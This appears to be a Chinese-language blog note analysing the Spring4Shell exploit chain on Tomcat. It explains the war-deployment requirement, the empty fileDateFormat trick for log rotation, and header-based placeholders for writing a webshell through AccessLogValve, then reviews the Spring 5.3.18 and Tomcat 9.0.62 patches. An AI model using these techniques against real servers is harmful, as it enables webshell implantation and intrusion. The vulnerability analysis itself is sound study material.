我用spring没有打通，于是去调试看了一下，当走到resources的时候，抛出了一个异常，于是去搜，看到文章说到了上面链子中比较关系的点ParallelWebappClassLoader

从`java.lang.Module`到`org.apache.catalina.loader.ParallelWebappClassLoader`，是将调用链转移到Tomcat，并最终利用`AccessLogValve`输出webshell的关键

`ParallelWebappClassLoader`在Web应用以war包部署到Tomcat中时使用到

于是我去打印看了看ClassLoader



并没有getResources方法

所以这里应该用war包去部署环境

## 为什么要设置一个空的fileDateFormat

这么做的目的是是触发 tomcat 切换日志，可以来看看rotatable属性


用于确定是否应发生日志轮换的标志。如果设置为 false，则永远不会轮转此文件并忽略 fileDateFormat。默认值：true

意思就是说，当这个值为 true 的时候，tomcat 会根据时间的变换而自动生成新的文件，避免所有的日志从 tomcat 运行开始都写在一个文件中

简单来说，就是为true的时候，同一天的日志会写到同一个文件下

如果修改fielDateFormat就能新建一个log文件

具体可以在https://forum.butian.net/share/1496看到

## 传参的时候为什么要用header去传入参数

在 tomcat 的比较新的版本中，无法在 URL 中携带 `<`，`{` 等特殊字符，但在 AccessLogValve 的输出方式支持 [Apache HTTP Server](https://httpd.apache.org/) 日志配置语法模型，可以通过占位符写入特殊字符。

```
%{xxx}i 请求headers的信息
%{xxx}o 响应headers的信息
%{xxx}c 请求cookie的信息
%{xxx}r xxx是ServletRequest的一个属性
%{xxx}s xxx是HttpSession的一个属性
```

# 补丁分析

## spring5.3.18

直接用白名单，对于 class 只能获取以 name 结尾的属性

没有单独去找补丁，直接找了别人截取的补丁图片


可以看到对`CachedIntrospectionResults`构造函数中Java Bean的`PropertyDescriptor`的过滤条件被修改了：当Java Bean的类型为`java.lang.Class`时，仅允许获取`name`以及`Name`后缀的属性描述符

这样就无法去获取Module了

## Tomcat9.0.62

对getResources进行修改，直接返回null


这样在获取resources的时候直接返回一个null，就没法再获取到了


参考链接

https://forum.butian.net/share/1496

https://paper.seebug.org/1877/#41-spring-5318
